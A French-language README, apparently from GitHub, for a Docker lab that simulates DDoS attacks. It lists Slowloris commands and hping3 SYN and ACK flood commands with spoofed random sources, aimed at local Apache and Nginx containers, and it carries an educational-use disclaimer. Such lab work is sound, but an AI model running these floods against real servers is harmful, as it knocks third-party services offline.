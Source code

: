 # DDoS Attack Simulation Tool

Ce projet met à disposition une collection d'outils performants de simuler des attaques DDoS sur des serveurs Apache et Nginx. 
Ces outils s'avèrent précieux pour les tests et l'évaluation de la sécurité des infrastructures web.

## Prérequis

- Docker et Docker Compose doivent être installés sur votre machine.

## Utilisation

1. Construction et exécution des conteneurs

```bash
docker-compose -f stack.yml up -d --build

# build images and run containers

```bash
docker-compose -f stack.yml up -d --build
```

2. Attaques HTTP Flood

- Attaque Slowloris contre le serveur Apache

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.2 -s 1000"
```

- Attaque Slowloris contre le serveur Nginx

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.3 -s 1000"
```

3. Attaques SYN Flood

- Attaque SYN Flood contre le serveur Apache

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- Attaque SYN Flood contre le serveur Nginx
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

4. Attaques ACK Flood

- Attaque ACK Flood contre le serveur Apache
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- Attaque ACK Flood contre le serveur Nginx
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

5. Arrêt et suppression des conteneurs
```bash
docker-compose -f stack.yml down
```

## Avertissement
Ce projet est uniquement destiné à des fins éducatives et de test. L'utilisation de ces outils contre des systèmes sans autorisation est illégale.

## Auteur
Ahmed MEMAR

Email : ahmadmeamar7@gmail.Com

## Licence

Ce projet est sous licence MIT. Voir le fichier LICENSE pour plus de détails.
 
